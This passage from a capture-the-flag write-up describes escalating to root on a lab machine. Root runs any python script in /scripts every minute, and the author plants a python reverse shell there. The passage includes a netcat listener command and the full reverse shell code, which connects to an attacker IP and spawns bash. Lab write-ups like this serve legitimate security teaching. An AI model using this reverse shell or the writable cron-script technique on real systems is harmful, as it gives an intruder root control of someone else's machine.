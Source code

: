 No dice :game_die:  Unfortunately the exploit did not work. I didn't investigate why.

**pspy** showed something very interesting though. Definitely a PE vector. It showed that scripts from that suspicious ``/scripts`` directory are being executed by root, once per minute!

![pspy](pspy.png)

It looks like root will run any python script inside ``/scripts``! That's wonderful. While it would be possible to simply write a python script to read the root flag and write it to an accessible location, it's just as easy (and so much more gratifying) to pop a root shell.

Following the same process as before, let's create a reverse shell as a python script inside ``/scripts``:

First, on the attacker box, make a new firewall rule to allow the root reverse shell from this target:

```bash
sudo ufw allow from 10.10.10.68 to any port 1337 proto tcp
```

Also on the attacker box, set up a netcat listener:

```bash
bash
nc -lvnp 1337
```

Then save the same python reverse shell into a new python script ``/scripts/revshell.py``:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.10",1337));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```

On the attacker box, just wait a minute. Before long...

![reverse shell root](reverse%20shell%20root.png)

:tada: *Behold, a shell is popped*.

From there, just ``cat`` out the flag at ``/root/root.txt``
